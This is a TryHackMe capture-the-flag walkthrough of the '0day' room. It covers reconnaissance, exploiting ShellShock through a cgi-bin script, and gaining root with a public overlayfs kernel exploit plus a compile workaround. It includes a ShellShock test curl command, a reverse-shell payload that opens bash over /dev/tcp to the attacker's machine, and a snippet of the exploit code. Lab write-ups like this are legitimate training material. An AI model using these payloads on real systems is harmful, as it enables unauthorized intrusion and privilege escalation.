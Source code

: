 # 0day Walkthrough ([Tryhackme](https://tryhackme.com/room/0day)) - by [yag1n3](https://github.com/yaguine)

---

## Room Info

### Room Labels
* CVE
* kernel exploit
* shell shock
* 0day

### Room Objetives
* user flag
* root flag

---

## Reconnaissance

### nmap

![](./images/image1.png)


### website

![](./images/image2.png)

this is the personal website of the machine's creator Ryan Montgomery  
a little bit of flexing, i understand  
nothing interesting at first sight, lets go with the subdomain enumeration  


### subdomain enumeration

![](./images/image3.png)

there are some interesting directories  
*uploads*, *secret*, *admin* and *robots.txt* look like rabbit holes  
*backup* is an RSA private key, i save it just in case we can use it later  
to me, *cgi-bin* is the most interesting one, so let's investigate about it  

so there is a [hacktricks page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi) on the subject  
it says that is used to store **Perl scripts** with the extension *.pl* or *.cgi*  
let's see if we can enumerate any script  
we use **gobuster dir**, adding the mentioned extensions... and we find *test.cgi*  

the output of the script is "Hello World", it doesn't look like a vector to compromise the web server  
but if we keep reading the hacktricks page, we see something called **ShellShock**  

---

## Exploiting ShellShock

first of all, we see a command to test if it's vulnerable, so let's confirm it  
`nmap <TARGET_IP> -p 80 --script=http-shellshock --script-args uri=/cgi-bin/test.cgi`  

![](./images/image4.png)  

well, we have something to exploit here, now we need to know how  
i found [this article](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock), with the explanation and some payloads  

looks like vulnerable Bash versions execute commands that follow functions defined on environment variables  
also, some web servers follow the CGI specification allowing CLI programs to generate dynamic pages  
for this programs, request information (e.g. User-Agent) are stored in environment variables  
finally, they retrieve the standard output as the HTTP response  

so we know the deal right ? injecting a malicious payload on an HTTP Header and abusing it to get a reverse shell  


### proof of concept

```bash
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://<TARGET_IP>/cgi-bin/test.cgi
```

![](./images/image5.png)  

it definitely works  


### getting a reverse shell  

now, we start a netcat listerner on port 443  
we copy the payload for a reverse shell from the previous article  
```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/<LOCAL_IP>/443 0>&1" http://<TARGET_IP>/cgi-bin/test.cgi  
```
we have a shell on the machine with www-data  
this allows us to retrieve **user.txt** from */home/ryan*  

---

## Rooting the machine 

i try some manual enumeration, but it doesn't seem like there's an obvious way to escalate privileges  

i transfer [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to the target machine  
i run it, and it retrieves huge info  

![](./images/image6.png)  

so, the kernel version is vulnerable  
i find [an exploit](https://www.exploit-db.com/exploits/37292)  


### trying to execute the exploit

lets go to work : i transfer the exploit to the target machine and try to compile it, but we get the following message :  

![](./images/image7.png)  

at first sight it looks like there is no problem, since we can compile it in our machine  
so i compile it in my machine, tranfer the compiled file and run it, but this is the output  

![](./images/image8.png)  


### alternative solution

so, i say this is an "alternative" solution because i watched some writeups after finishing the machine and i didn't see anyone using this method  
we will be discussing the "intended" solution afterwards  

let's check the part of the code that is failing  
```c
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
```
so, it looks like the C file that is getting compiled by the program is */tmp/ofs-lib.c*  
*/tmp/ofs-lib.c* is getting compiled to the file */tmp/ofs-lib.so*  

so what we are gonna do is compile *ofs-lib.c* in my machine, send *ofs-lib.so* to the target machine, and then rerun the exploit but deleting the part of the code responsible for the compilation  

1. i transfer *ofs-lib.c* to my machine, and run `gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w`  
2. i transfer the compiled file *ofs-lib.so* to the target machine and place it on the */tmp* folder  
3. now i have to modify the initial exploit, but without the lines where the compilation happens  

![](./images/image9.png)  

4. lets compile this modified version of the exploit and transfer it to the target machine  
5. run it

![](./images/image10.png)  

we have a root shell !!  


### intended solution

for what i found on the internet, looks like the most obvious solution has to do with the PATH variable  
i'm gonna be honest, i didn't even think about it  
i just assumed that the necessary library just wasn't installed on the system  

so the value of $PATH in the machine is "/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:."  
i google a more complete value and i find "/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"  
now i run **gcc** and it works, so we can easily compile and execute the exploit  



